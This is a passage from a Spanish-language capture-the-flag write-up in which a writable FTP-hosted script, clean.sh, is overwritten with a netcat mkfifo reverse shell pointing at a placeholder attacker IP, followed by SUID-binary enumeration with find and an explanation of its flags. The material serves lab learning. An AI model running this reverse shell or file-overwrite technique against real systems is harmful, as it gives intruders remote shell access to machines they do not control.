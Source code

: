 El archivo `clean.sh` se ve interesante y podemos observar que podemos sobre escribir

### Explotación

#### FTP

Para probar, podemos hacer un `put clean.sh` nos damos cuenta que podemos escribir en el archivo

Creamos un archivo `clean.sh`, en el que estará nuestra reverse shell. Podemos usar el siguiente comando:

```java
#!/bin/bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [Ip-Attacker] 777 >/tmp/f
```

Ahora nos ponemos a la escucha con `ncat` para pder recibir la shell

![20231017165325.png](20231017165325.png)

¡VAMOS! tenemos una shell de la maquina victima.

### Escalación de privilegios

#### Usuario: namelessone

Ahora para escalar privilegios realizamos un `find / -type f -perm -04000 -ls 2>/dev/null` para realizar una busqueda de binarios que son `SUID`

```java
namelessone@anonymous:~$ find / -type f -perm -04000 -ls 2>/dev/null
```

`find`: Este es el comando principal que se utiliza para buscar archivos y directorios en el sistema de archivos.

`/`: Es el directorio raíz desde el cual se iniciará la búsqueda. En este caso, la búsqueda se realizará en todo el sistema de archivos.

`-type f`: Este parámetro indica a find que solo busque archivos regulares (no directorios ni otros tipos de archivos).

`-perm -04000`: Aquí especificas el atributo de permisos que estás buscando. El número "04000" se refiere a archivos con el conjunto de bits SUID activado. Los archivos SUID suelen tener permisos numéricos que comienzan con "4". El 4 indica que el bit SUID está activado, y el 000 indica que no importa qué permisos tenga el grupo o otros usuarios.
